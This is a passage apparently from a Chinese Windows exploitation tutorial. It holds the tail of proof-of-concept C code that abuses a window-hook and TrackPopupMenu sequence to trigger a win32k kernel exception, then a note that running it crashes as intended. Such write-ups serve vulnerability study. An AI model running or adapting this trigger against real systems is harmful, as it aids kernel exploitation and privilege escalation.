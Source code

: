 ```
  memset(&WndClass, 0, 0x28u);
  WndClass.lpfnWndProc = (WNDPROC)sub_4014D2;
  WndClass.lpszClassName = "woqunimalegebi";
  GetNativeSystemInfo(&SystemInfo);
if ( 
SystemInfo.dwOemId != 9
&& (RegisterClassA(&WndClass)
&&(hWnd = CreateWindowExA(0, WndClass.lpszClassName, 0, 0, -1, -1, 0, 0, 0, 0, 0, 0)) !=0) 
)
  {
v1 = 0;
v5 = 1;
    v1 = sub_401306();
    if ( v1 )
    {
        v2 = GetCurrentThreadId();
        SetWindowsHookExA(4, pfnFilterProc, 0, v2);
        TrackPopupMenu((HMENU)v1, 0, 0xFFFFD8F0u, 0xFFFFD8F0u, 0, hWnd, 0);
    }
    DestroyWindow(hWnd);
if ( v1 )
      DestroyMenu((HMENU)v1);
    UnhookWindowsHook(4, pfnFilterProc);
if ( v5 )
      VirtualFree(lpAddress, 0, 0x8000u);
    result = 0;
  }
else
    result = 0;
return result;
}

int _tmain(int argc, _TCHAR* argv[])
{
    Exp();
    return 0;
}

```

编译执行之后，可以看到触发了异常。

![enter image description here](http://drops.javaweb.org/uploads/images/3dd2d1793281e83bd0274847321205adcdba2481.jpg)
